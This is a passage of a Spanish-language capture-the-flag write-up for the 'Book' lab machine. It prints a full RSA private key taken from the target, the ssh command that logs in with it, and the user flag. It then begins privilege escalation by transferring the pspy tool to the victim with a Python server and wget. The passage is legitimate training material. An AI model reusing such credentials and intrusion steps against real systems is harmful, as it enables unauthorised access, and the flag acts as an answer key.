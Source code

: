 ```
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA2JJQsccK6fE05OWbVGOuKZdf0FyicoUrrm821nHygmLgWSpJ
G8m6UNZyRGj77eeYGe/7YIQYPATNLSOpQIue3knhDiEsfR99rMg7FRnVCpiHPpJ0
WxtCK0VlQUwxZ6953D16uxlRH8LXeI6BNAIjF0Z7zgkzRhTYJpKs6M80NdjUCl/0
ePV8RKoYVWuVRb4nFG1Es0bOj29lu64yWd/j3xWXHgpaJciHKxeNlr8x6NgbPv4s
7WaZQ4cjd+yzpOCJw9J91Vi33gv6+KCIzr+TEfzI82+hLW1UGx/13fh20cZXA6PK
75I5d5Holg7ME40BU06Eq0E3EOY6whCPlzndVwIDAQABAoIBAQCs+kh7hihAbIi7
3mxvPeKok6BSsvqJD7aw72FUbNSusbzRWwXjrP8ke/Pukg/OmDETXmtgToFwxsD+
McKIrDvq/gVEnNiE47ckXxVZqDVR7jvvjVhkQGRcXWQfgHThhPWHJI+3iuQRwzUI
tIGcAaz3dTODgDO04Qc33+U9WeowqpOaqg9rWn00vgzOIjDgeGnbzr9ERdiuX6WJ
jhPHFI7usIxmgX8Q2/nx3LSUNeZ2vHK5PMxiyJSQLiCbTBI/DurhMelbFX50/owz
7Qd2hMSr7qJVdfCQjkmE3x/L37YQEnQph6lcPzvVGOEGQzkuu4ljFkYz6sZ8GMx6
GZYD7sW5AoGBAO89fhOZC8osdYwOAISAk1vjmW9ZSPLYsmTmk3A7jOwke0o8/4FL
E2vk2W5a9R6N5bEb9yvSt378snyrZGWpaIOWJADu+9xpZScZZ9imHHZiPlSNbc8/
ciqzwDZfSg5QLoe8CV/7sL2nKBRYBQVL6D8SBRPTIR+J/wHRtKt5PkxjAoGBAOe+
SRM/Abh5xub6zThrkIRnFgcYEf5CmVJX9IgPnwgWPHGcwUjKEH5pwpei6Sv8et7l
skGl3dh4M/2Tgl/gYPwUKI4ori5OMRWykGANbLAt+Diz9mA3FQIi26ickgD2fv+V
o5GVjWTOlfEj74k8hC6GjzWHna0pSlBEiAEF6Xt9AoGAZCDjdIZYhdxHsj9l/g7m
Hc5LOGww+NqzB0HtsUprN6YpJ7AR6+YlEcItMl/FOW2AFbkzoNbHT9GpTj5ZfacC
hBhBp1ZeeShvWobqjKUxQmbp2W975wKR4MdsihUlpInwf4S2k8J+fVHJl4IjT80u
Pb9n+p0hvtZ9sSA4so/DACsCgYEA1y1ERO6X9mZ8XTQ7IUwfIBFnzqZ27pOAMYkh
sMRwcd3TudpHTgLxVa91076cqw8AN78nyPTuDHVwMN+qisOYyfcdwQHc2XoY8YCf
tdBBP0Uv2dafya7bfuRG+USH/QTj3wVen2sxoox/hSxM2iyqv1iJ2LZXndVc/zLi
5bBLnzECgYEAlLiYGzP92qdmlKLLWS7nPM0YzhbN9q0qC3ztk/+1v8pjj162pnlW
y1K/LbqIV3C01ruxVBOV7ivUYrRkxR/u5QbS3WxOnK0FYjlS7UUAc4r0zMfWT9TN
nkeaf9obYKsrORVuKKVNFzrWeXcVx+oG3NisSABIprhDfKUSbHzLIR4=
-----END RSA PRIVATE KEY-----

```

Una vez tenemos esto solo nos queda conectarnos a la máquina por ssh usando esta id_rsa como identificador. 

```
ssh -i id_rsa reader@10.10.10.176
```
Y estamos dentro, la flag de usuario ya la tenemos.
```
reader@book:~$ 
```

**FLAG USER** 
```
1e91b89bb34f91d5d645c53b0bffcd1c
```

## Escalada de privilegios 

Bien ahora llega la parte interesante, nos fijamos, según entramos en la máquina, si hacemos un ls modemos ver que tenemos un directorio llamado "backups", entramos y vemos que tenemos un fichero llamado "access.log", hice y un cat y no encontré nada, esto me llama poderosamente la atención.

No encontré nada potencialmente escalable hasta que me dió por ver que tareas se ejecutan a intervalos regulares de tiempo, esto lo hice gracias a <b>pspy</b> un programita que te permite hacer esto mismo, os dejo el enlace del repositorio, tenéis releases ya compilados para solo descargarlos y pasarlos a la máquina víctima levantando un server en python en vuestra máquina y descargándola con wget en la máquina victima. 
